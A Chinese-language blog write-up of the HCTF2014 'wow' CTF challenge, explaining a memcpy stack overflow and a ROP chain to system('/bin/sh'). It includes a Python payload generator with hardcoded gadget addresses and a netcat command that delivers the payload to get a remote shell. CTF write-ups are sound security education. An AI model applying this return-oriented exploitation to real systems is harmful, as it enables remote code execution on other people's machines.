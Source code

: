 ```yaml
---
layout: post
title: HCTF2014 wow writeup
catagories: [ctf]
tags: [ctf, writeup, hctf, xctf]
---
```

> wow的这一题的binary同时也是“真的能做吗”的binary.

这一题的问题，在分析wow这一题已经发现了，`memcpy()`函数产生溢出，
但`memcpy`函数的dst和src如果超过`0x30+0x8(rbp)+0x8(retaddr)`这么长，会产生dst和src重叠的问题
查上一下，`memcpy()`在处理重叠问题的时候会产生未知的效果，我也试了一下，它只
保留最终的`0x30+0x8+0x8`这些数据，前面的数据都会丢失，那也就是说，我们的可以利用的缓
冲区也就是从`ebp-0x30`到`retaddr`之间，直接改写，就改写了retaddr。

利用ROPGadget找到`pop rdi, ret`, 因为这题的libc是静态编译到wow的，所以可以找到`system()`
的地址，IDA里也可以搜索`/bin/sh`,万事俱备。

同时，由于需要绕过前面这个大循环，所以需要wow题的flag.此flag长度22,那么我们的栈大概是这样的布局

```
//memcpy之前
rip-0x30    wowflag
rip-0x28    wowflag+8
rip-0x20    wowflag+22+"AA"
rip-0x18    poprdi_gadget
rip-0x10    binsh_addr
rip-0x8     system_addr
rip         "B"*8
ret         pop3ret_addr
rip+0x8     xxx
rip+0x10    xxx
rip+0x10    xxx

//memcpy之后
rip-0x30    wowflag
rip-0x28    wowflag+8
rip-0x20    wowflag+22+"AA"
rip-0x18    poprdi_gadget
rip-0x10    binsh_addr
rip-0x8     system_addr
rip         "B"*8
ret         pop3ret_addr
rip+0x8     wowflag
rip+0x10    wowflag8
rip+0x18    wowflag22+"AA"
rip+0x20    poprdi_gadget
rip+0x28    binsh_addr
rip+0x30    system_addr
rip+0x38    "B"*8
rip+0x40    pop3ret_addr
...(以下每0x40字节重复)
```

因此生成shellcode的代码为：

```python
#!/usr/bin/env python2
from struct import pack

pad = "hctf{LJ_y6cdc_qweert!}"

libcbase = 0x00007FFFF75D3000

pop3    = 0x00007ffff75f35ad
poprdi  = 0x00007ffff75f59f2
system  = 0x00007FFFF7618310
binsh   = 0x00007FFFF774CFE7 

shellcode = ""
shellcode += pad 
shellcode += "A"*(24-len(pad)) 

shellcode += pack("<Q", poprdi)
shellcode += pack("<Q", binsh)
shellcode += pack("<Q", system)
shellcode += "B"*8

shellcode += pack("<Q", pop3)

fd = open("shellcodez", "w")
fd.write(shellcode)
fd.close()
```

输入`cat shellcodez -| nc addr port`拿到shell,flag在`/home/wow/`下
